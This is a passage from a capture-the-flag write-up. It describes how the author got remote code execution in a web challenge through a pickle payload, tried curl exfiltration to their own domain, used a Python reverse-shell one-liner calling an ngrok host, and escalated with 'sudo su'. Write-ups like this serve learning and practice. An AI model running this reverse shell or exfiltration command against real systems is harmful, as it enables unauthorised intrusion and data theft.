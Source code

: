 and plug that output in a file and download it (note that this script uses cPickle and thus works with python 2.7)

then I just downloaded the file by calling `/download/<file name>/<session>`

![poc](./images/rce_poc.png)

## A reverse shell

At this point only 8 teams have solved the challenge, so I felt so confident that I'll be from the top ten to solve the hardest web challenge in this ctf.

I tried first to grab the output of the RCE via a curl get requets to my domain as so:
```
curl https://<my domain>/$(whoami)
```
But got nothing back which made me think that this hosted machine was so stripped down that it doesn't have the basic utilities.

even tried to remove the template `login.html` file which didn't work as well, mabe due to the web user having read only permissions idk.

SO my best bet was a reverse shell, my worst nightmares. I never got along with reverse shells but It seems I had to.

Long story short, I spent day and a half left from the ctf time trying hard to get a callback with no luck. With that the ctf ended and after the fact I got the payload from a fellow player which worked just fine:

```console
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("5.tcp.eu.ngrok.io",19228));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

So I tried to finish the challenge after the ctf ended

## Escalating Privileges

after sending the payload I got dropped in a shell in which I just needed to get root access to. Fortunately it was so straight forward, as the only thing I needed to do is to execute `sudo su` to get root user access

## Flag

The flag was in the `/root` directory which made a reverse shell mandatory. And with that I got, although late, the flag:
